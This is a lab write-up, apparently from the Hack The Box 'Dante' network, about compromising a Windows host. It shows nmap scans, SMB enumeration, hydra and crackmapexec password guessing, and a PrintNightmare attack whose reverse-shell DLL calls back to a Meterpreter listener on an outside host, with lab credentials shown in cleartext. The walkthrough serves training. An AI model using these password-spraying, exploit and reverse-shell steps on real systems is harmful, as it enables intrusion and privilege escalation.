Getting the open ports on the TCP service:

```
balthazar@DANTE-WEB-NIX01:/tmp$ ./nmap 172.16.1.101
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-01 02:24 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.16.1.101
Host is up (0.00016s latency).
Not shown: 1178 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
135/tcp open  epmap
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
Nmap done: 1 IP address (1 host up) scanned in 15.08 seconds
```

And about the UDP:

```
root@DANTE-WEB-NIX01:/tmp# ./nmap -sU -F 172.16.1.101

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-02 07:40 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 13.03% done; ETC: 07:41 (0:00:27 remaining)
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 12.94% done; ETC: 07:41 (0:00:34 remaining)
Stats: 0:01:00 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 33.05% done; ETC: 07:42 (0:01:35 remaining)
Nmap scan report for 172.16.1.101
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00035s latency).
Not shown: 112 closed ports
PORT     STATE         SERVICE
123/udp  open|filtered ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
500/udp  open|filtered isakmp
4500/udp open|filtered ipsec-nat-t
5353/udp open|filtered mdns
5355/udp open|filtered hostmon
MAC Address: 00:50:56:B9:61:40 (Unknown)
```

I don't see any interesting UDP service worth poking.

* * *

## FTP:

First thing first we can start by footprinting the FTP service version used:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains nc -vn 172.16.1.101 21
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:21  ...  OK
(UNKNOWN) [172.16.1.101] 21 (ftp) open : Operation now in progress
220-FileZilla Server 0.9.60 beta
220 DANTE-FTP
```

I don't see any exploit that we can use for this:



And the FTP is not allowing anonymous login:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains ftp anonymous@172.16.1.101
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:21  ...  OK
Connected to 172.16.1.101.
220-FileZilla Server 0.9.60 beta
220 DANTE-FTP
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
ftp> exit
```

We can check back as soon we find a valid set of credentials.

* * *

## SMB:

Next we can start by poking everything we can get out of SMB service running on 445/tcp:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains enum4linux-ng -A 172.16.1.101
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 172.16.1.101
[*] Username ......... ''
[*] Random Username .. 'khpkcgsv'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on 172.16.1.101    |
 =====================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:389 <--socket error or timeout!
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:636 <--socket error or timeout!
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:139  ...  OK
[+] SMB over NetBIOS is accessible on 139/tcp

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for 172.16.1.101    |
 ===========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =========================================
|    SMB Dialect Check on 172.16.1.101    |
 =========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 ===========================================================
|    Domain Information via SMB session for 172.16.1.101    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: DANTE-WS02
NetBIOS domain name: ''
DNS domain: DANTE-WS02
FQDN: DANTE-WS02
Derived membership: workgroup member
Derived domain: unknown

 =========================================
|    RPC Session Check on 172.16.1.101    |
 =========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 ===============================================
|    OS Information via RPC for 172.16.1.101    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1903'
OS build: '18362'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 6.87 seconds
```

We can see that this is the server named DANTE-WS02 and it's not domain joined. The machine it's a Windows 10 build 18362.

Next we could check for possible running samba shares as guest user:



But it's not working so we need a valid set of credentials.

RCP is not enumerable as guest user aswell:



* * *

## Back to FTP:

Now that I have a list of usernames and corresponding passwords I want to check if we can find a working username somehow?

And indeed it worked now we have a login to FTP:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/DANTE]
└─# proxychains hydra -C concat_emp.txt ftp://172.16.1.101                                                                                                                                                                                                   
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-04 13:37:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 19 login tries, ~2 tries per task
[DATA] attacking ftp://172.16.1.101:21/
[proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050 [proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21 [proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  172.16.1.101:21  ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
 ...  OK
[21][ftp] host: 172.16.1.101   login: dharding   password: WestminsterOrange5
```

Logging into FTP we can download a txt file:



```
└─# cat Remote\ login.txt                                                                                                                                                                                                                                    
Dido,
I've had to change your account password due to some security issues we have recently become aware of

It's similar to your FTP password, but with a different number (ie. not 5!)

Come and see me in person to retrieve your password.

thanks,
James
```

We can see that James(Sysadmin) changed the password for account of Dido(can seems to find it in the excell file unfortunately)

And we don't have any write access on the machine unfortunately:



Ok now going back and reading better dido is this account and we have to create a password that is different that 5.

We can start with this one and eventually just add more numbers:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/DANTE]
└─# cat dido.txt                                                                                                                                                                                                                                             
WestminsterOrange0
WestminsterOrange1
WestminsterOrange2
WestminsterOrange3
WestminsterOrange4
WestminsterOrange5
WestminsterOrange6
WestminsterOrange7
WestminsterOrange8
WestminsterOrange9
```

Unfortunately it didn't worked so I created a list to 99 and iterated thru whole and found out the new password for Samba share on the machine:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/DANTE]
└─# proxychains crackmapexec smb 172.16.1.101 -u dharding -p dido.txt 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:135  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [*] Windows 10.0 Build 18362 x64 (name:DANTE-WS02) (domain:DANTE-WS02) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange0 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange1 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange2 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange3 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange4 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange5 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange6 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange7 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange8 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange9 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange10 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange11 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange12 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange13 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange14 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange15 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [-] DANTE-WS02\dharding:WestminsterOrange16 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [+] DANTE-WS02\dharding:WestminsterOrange17
```

And now we can read the shares:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/DANTE]
└─# proxychains crackmapexec smb 172.16.1.101 -u dharding -p WestminsterOrange17 --shares
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:135  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [*] Windows 10.0 Build 18362 x64 (name:DANTE-WS02) (domain:DANTE-WS02) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:445  ...  OK
SMB         172.16.1.101    445    DANTE-WS02       [+] DANTE-WS02\dharding:WestminsterOrange17 
SMB         172.16.1.101    445    DANTE-WS02       [+] Enumerated shares
SMB         172.16.1.101    445    DANTE-WS02       Share           Permissions     Remark
SMB         172.16.1.101    445    DANTE-WS02       -----           -----------     ------
SMB         172.16.1.101    445    DANTE-WS02       ADMIN$                          Remote Admin
SMB         172.16.1.101    445    DANTE-WS02       C$                              Default share
SMB         172.16.1.101    445    DANTE-WS02       IPC$            READ            Remote IPC
```

And now checking again seems like we have only access as write permissions on IPC share:



Knowing that OS build is not that new 18362 I'm wondering if this machine is vulnerable to "PrintSpoofer" bug which by leveraging on PrintNightmare can elevate to NT System from non priviledge local user.

Seems like it's vulnerable to the exploit:



Now since the automatic tool didn't worked we have to do it manually, we can start by double checking that Print Spooler is active on the machine:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/DANTE]
└─# proxychains rpcdump.py @172.16.1.101 | egrep 'MS-RPRN|MS-PAR'                                                                                                                                                                                           
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.101:135  ...  OK
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

Next we need to create a revshell as dll file:



Next we setup a SMB share that is going to serve the file:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/DANTE]
└─# proxychains impacket-smbserver -smb2support CompData /home/aleksandar/Downloads/DANTE/                                                                                                                                                                   
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Next we prepare the listerner to catch the request:



Lastly we should be able to use this script to invoke it remotely: https://github.com/cube0x0/CVE-2021-1675.git

And if everything goes smooth we should be able to launch the payload:



And after a second we should see the file requested to out share:



And lastly i working shell as NT System:

```
msf6 exploit(multi/handler) > run
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16

[*] Started reverse TCP handler on 10.10.17.103:6666 
[*] Sending stage (200774 bytes) to 10.10.110.3
[proxychains] DLL init: proxychains-ng 4.16
[*] Meterpreter session 1 opened (10.10.17.103:6666 -> 10.10.110.3:23748) at 2023-09-04 15:26:22 +0200

[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
meterpreter > whoami
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[-] Unknown command: whoami
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
